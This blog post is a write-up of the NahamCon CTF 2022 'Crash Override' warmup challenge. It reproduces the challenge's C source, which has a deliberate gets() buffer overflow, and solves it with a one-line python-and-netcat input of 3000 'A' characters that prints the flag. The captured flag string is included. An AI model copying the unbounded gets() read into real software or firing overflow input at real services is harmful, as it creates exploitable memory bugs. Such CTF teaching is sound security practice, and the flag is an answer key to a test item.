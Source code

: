 ```yaml
---
title: NahamCon CTF 2022 - Warmup Writeup Part 2
published: true
---
```


Part 2 of the warmup challenges for NahamCon CTF 2022.  Part 1 is [here](https://ruddles.github.io/NahamCon-CTF-2022-Warmup-1)

# Crash Override

> Remember, hacking is more than just a crime. It's a survival trait.
> 
> Attachments: crash_override.c, Makefile, crash_override
> 
> Connect to `nc challenge.nahamcon.com 30637`

To start off we can download the 3 files using wget

```
wget -o crash_override.c https://ctf.nahamcon.com/files/f9dc325add89e0bd3302d94d0f370dca/crash_override.c?token=<my-token>
wget -o Makefile https://ctf.nahamcon.com/files/f9dc325add89e0bd3302d94d0f370dca/Makefile?token=<my-token>
wget -o crash_override https://ctf.nahamcon.com/files/f9dc325add89e0bd3302d94d0f370dca/crash_override?token=<my-token>
```

Opening up the C file reveals the following code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <signal.h>

void win(int sig) {
    FILE *fp = NULL;
    char *flag = NULL;
    struct stat sbuf;

    if ((fp = fopen("flag.txt", "r")) == NULL) {
        puts("Failed to open the flag. If this is on the challenge server, contact an admin.");
        exit(EXIT_FAILURE);
    }

    if (fstat(fileno(fp), &sbuf)) {
        puts("Failed to get flag.txt file status. If this is on the challenge server, contact an admin.");
        exit(EXIT_FAILURE);
    }

    flag = calloc(sbuf.st_size + 1, sizeof(char));
    if (!flag) {
        puts("Failed to allocate memory.");
        exit(EXIT_FAILURE);
    }

    fread(flag, sizeof(char), sbuf.st_size, fp);
    puts(flag);

    free(flag);

    exit(EXIT_SUCCESS);
}

int main(void) {
    char buffer[2048];

    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    signal(SIGSEGV, win);

    puts("HACK THE PLANET!!!!!!");
    gets(buffer);

    return 0;
}
```

Reading the code, the line `signal(SIGSEGV, win);` means if we can cause a segmentation fault (i.e. cause the application to access memory it isn't allowed to) then the `win` function will run and print out the flag.

The easiest way to cause a seg fault is to cause a buffer overflow, which is where we attempt to stuff more data into a memory location than the application is expecting.

Do you see it?  Look at the first and second-to-last lines in main.  `char buffer[2048];` is setting up a buffer with 2048 bytes of space.  Then `gets(buffer);` will take whatever is in stdin and stuff it into the buffer.  So what happens if stdin contains more than 2048 bytes of data?  Boom.  That's what.  Never use gets.  Hell, even the [bugs section on the man page says don't use it](https://linux.die.net/man/3/gets).

To blow this popsicle stand and get the flag we just need to connect to the server and give it a big load of data on stdin.  We're not going to type all those chars, this is an expensive keyboard, we'll use python for that.  Let's give it 3000 "A" chars for good measure.

```
python3 -c 'print("A" * 3000)' | nc challenge.nahamcon.com 30637
```

Running that and boom, the flag is dumped. `flag{de8b6655b538a0bf567b79a14f2669f6}`
